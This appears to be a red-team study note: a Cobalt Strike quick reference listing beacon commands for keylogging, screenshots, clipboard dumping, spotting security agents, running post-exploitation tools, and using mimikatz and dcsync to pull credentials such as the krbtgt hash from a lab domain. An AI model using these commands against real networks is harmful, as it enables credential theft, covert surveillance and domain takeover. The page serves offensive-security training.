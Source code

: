 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Cobalt_Strike
---
```



<span style="font-size: 35px; color:red"><b>Cobalt Strike</b></span>
&nbsp;
<span style="font-size: 25px; color:white"><b>Quick Reference</b></span>
- <span style="color:red">ps</span>: enumerate running processes (focus on services like <span style="color:red">Sysmon64.exe</span>, <span style="color:red">MsMpEng</span>, <span style="color:red">elastic-endpoint</span>, <span style="color:red">elastic-agent</span>).
- <span style="color:red">printscreen</span>, <span style="color:red">screenshot</span> or <span style="color:red">screenwatch</span>: to capture the user's desktop.
- <span style="color:red">keylogger</span>: to capture keystrokes (it's a job, so run <span style="color:red">jobs</span> to list them all and <span style="color:red">jobkill \<id\></span> to kill one).
- <span style="color:red">clipboard</span>: to dump clipboard contents.
- <span style="color:red">net-logons</span>: to list the logon sessions.
- <span style="color:red">execute-assembly</span>: to execute C# executables like
  - [SharPersist](https://github.com/mandiant/SharPersist): persistent toolkit for Windows.
  - [Seatbelt](https://github.com/GhostPack/Seatbelt): AV and Security Enumeration.
  - [SharpUp](https://github.com/GhostPack/SharpUp): tool to enumerate OS misconfigurations and missing Patches that might lead to privesc.
  - [Rubeus](https://github.com/GhostPack/Rubeus): to play with Kerberos.
- <span style="color:red">mimikatz</span>: it spawns a new temporary process that is later on destroyed.
  - use <span style="color:red">!</span> to elevate beacon to SYSTEM (i.e. mimikatz !lsadump::sam).
  - use <span style="color:red">@</span> to impersonate beacon's thread token before running the given command (which is useful when mimikatz needs to interact with remote systems, i.e. mimikatz @lsadump::dcsync /user:DEV\krbtgt).
- <span style="color:red">dcsync</span>: to dump all username and credential data from the DC (i.e. <span style="color:red">dcsync dev.cyberbotic.io DEV\krbtgt </span>)
